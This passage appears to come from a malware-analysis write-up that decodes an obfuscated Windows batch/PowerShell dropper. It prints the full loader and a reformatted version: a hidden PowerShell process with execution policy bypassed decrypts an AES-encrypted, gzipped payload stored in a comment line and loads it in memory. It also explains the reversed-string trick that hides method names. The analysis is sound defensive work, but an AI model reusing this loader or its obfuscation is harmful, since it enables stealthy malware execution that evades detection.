 ```
> dotnet run
Not found in malware dictionary: cls
-------------------
copy C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe /y "%~0.exe"cd "%~dp0""%~nx0.exe" -noprofile -windowstyle hidden -ep bypass -command $eIfqq = [System.IO.File]::('txeTllAdaeR'[-1..-11] -join '')('%~f0').Split([Environment]::NewLine);foreach ($YiLGW in $eIfqq) { if ($YiLGW.StartsWith(':: ')) {  $VuGcO = $YiLGW.Substring(3); break; }; };$uZOcm = [System.Convert]::('gnirtS46esaBmorF'[-1..-16] -join '')($VuGcO);$BacUA = New-Object System.Security.Cryptography.AesManaged;$BacUA.Mode = [System.Security.Cryptography.CipherMode]::CBC;$BacUA.Padding = [System.Security.Cryptography.PaddingMode]::PKCS7;$BacUA.Key = [System.Convert]::('gnirtS46esaBmorF'[-1..-16] -join '')('0xdfc6tTBkD+M0zxU7egGVErAsa/NtkVIHXeHDUiW20=');$BacUA.IV = [System.Convert]::('gnirtS46esaBmorF'[-1..-16] -join '')('2hn/J717js1MwdbbqMn7Lw==');$Nlgap = $BacUA.CreateDecryptor();$uZOcm = $Nlgap.TransformFinalBlock($uZOcm, 0, $uZOcm.Length);$Nlgap.Dispose();$BacUA.Dispose();$mNKMr = New-Object System.IO.MemoryStream(, $uZOcm);$bTMLk = New-Object System.IO.MemoryStream;$NVPbn = New-Object System.IO.Compression.GZipStream($mNKMr, [IO.Compression.CompressionMode]::Decompress);$NVPbn.CopyTo($bTMLk);$NVPbn.Dispose();$mNKMr.Dispose();$bTMLk.Dispose();$uZOcm = $bTMLk.ToArray();$gDBNO = [System.Reflection.Assembly]::('daoL'[-1..-4] -join '')($uZOcm);$PtfdQ = $gDBNO.EntryPoint;$PtfdQ.Invoke($null, (, [string[]] ('%*')))
```
There was a single `cls` in the middle of the encoded payload that I just ignored - it was a legit `cls` command, but since it wouldn't have a corresponding value in the dictionary, and could just be ignored. Thankfully that's the only value not found in my dictionary.

So, this looks like _another_ malware payload of some sort. I spent some time reformatting it to make it easier to read.
They use an interesting method of obfuscation that I didn't realize was a thing:

```
'gnirtS46esaBmorF'[-1..-16]
```
```
FromBase64String
```
This apparently allows you to write commands backwards... I did not realize you could do this.

My manually prettified version of the above code (with backwards sections un-backwardsed):

```powershell
$eIfqq = [System.IO.File]::('ReadAllText' -join '')('%~f0').Split([Environment]::NewLine);

foreach ($YiLGW in $eIfqq) {
    if ($YiLGW.StartsWith(':: ')) {
        $COMMENT_PAYLOAD = $YiLGW.Substring(3);
        break;
    };
};

$COMMENT_PAYLOAD_UNB64ED = [System.Convert]::('FromBase64String' -join '')($COMMENT_PAYLOAD);
$BacUA = New-Object System.Security.Cryptography.AesManaged;
$BacUA.Mode = [System.Security.Cryptography.CipherMode]::CBC;
$BacUA.Padding = [System.Security.Cryptography.PaddingMode]::PKCS7;
$BacUA.Key = [System.Convert]::('FromBase64String' -join '')('0xdfc6tTBkD+M0zxU7egGVErAsa/NtkVIHXeHDUiW20=');
$BacUA.IV = [System.Convert]::('FromBase64String' -join '')('2hn/J717js1MwdbbqMn7Lw==');

$Nlgap = $BacUA.CreateDecryptor();
$COMMENT_PAYLOAD_UNB64ED = $Nlgap.TransformFinalBlock($COMMENT_PAYLOAD_UNB64ED, 0, $COMMENT_PAYLOAD_UNB64ED.Length);
$Nlgap.Dispose();
$BacUA.Dispose();
$mNKMr = New-Object System.IO.MemoryStream(, $COMMENT_PAYLOAD_UNB64ED);
$bTMLk = New-Object System.IO.MemoryStream;
$NVPbn = New-Object System.IO.Compression.GZipStream($mNKMr, [IO.Compression.CompressionMode]::Decompress);
$NVPbn.CopyTo($bTMLk);
$NVPbn.Dispose();
```